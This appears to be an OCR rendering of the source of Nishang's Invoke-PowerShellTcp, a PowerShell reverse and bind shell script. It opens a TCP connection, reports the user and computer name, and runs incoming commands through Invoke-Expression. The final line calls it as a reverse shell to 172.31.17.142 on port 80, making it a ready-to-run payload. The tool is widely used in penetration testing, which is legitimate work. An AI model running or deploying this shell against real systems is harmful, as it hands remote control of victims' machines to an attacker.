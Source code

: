 
    
          *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
    
    
    
    function Invoke-PowerShellTcp { <#.SYNOPSISNishang script which can be used for Reverse or Bind interactive PowerShell from a target.   
    .DESCRIPTIONThis script is able to connect to a standard netcat listening on a port when using the -Reverse switch. Also, a standard netcat can connect to this script Bind to a specific port.  
    The script is derived from Powerfun written by Ben Turner & Dave Hardy  
    .PARAMETER IPAddressThe IP address to connect to when using the -Reverse switch.  
    .PARAMETER PortThe port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.  
    .EXAMPLEPS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444  
    Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on the given IP and port.   
    .EXAMPLEPS > Invoke-PowerShellTcp -Bind -Port 4444  
    Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.   
    .EXAMPLEPS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444  
    Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must belistening on the given IP and port.   
    .LINKhttp://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.htmlhttps://github.com/nettitude/powershell/blob/master/powerfun.ps1https://github.com/samratashok/nishang#>          [CmdletBinding(DefaultParameterSetName="reverse")] Param(  
            [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]        [String]        $IPAddress,  
            [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]        [Int]        $Port,  
            [Parameter(ParameterSetName="reverse")]        [Switch]        $Reverse,  
            [Parameter(ParameterSetName="bind")]        [Switch]        $Bind  
        )  
            try     {        #Connect back if the reverse switch is used.        if ($Reverse)        {            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)        }  
            #Bind to the provided port if Bind switch is used.        if ($Bind)        {            $listener = [System.Net.Sockets.TcpListener]$Port            $listener.start()                $client = $listener.AcceptTcpClient()        }   
            $stream = $client.GetStream()        [byte[]]$bytes = 0..65535|%{0}  
            #Send back current username and computername        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")        $stream.Write($sendbytes,0,$sendbytes.Length)  
            #Show an interactive PowerShell prompt        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')        $stream.Write($sendbytes,0,$sendbytes.Length)  
            while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)        {            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding            $data = $EncodedText.GetString($bytes,0, $i)            try            {                #Execute the command on the target.                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )            }            catch            {                Write-Warning "Something went wrong with execution of command on the target."                 Write-Error $_            }            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '            $x = ($error[0] | Out-String)            $error.clear()            $sendback2 = $sendback2 + $x  
                #Return the results            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)            $stream.Write($sendbyte,0,$sendbyte.Length)            $stream.Flush()          }        $client.Close()        if ($listener)        {            $listener.Stop()        }    }    catch    {        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."         Write-Error $_    }}  
    Invoke-PowerShellTcp -Reverse -IPAddress 172.31.17.142 -Port 80
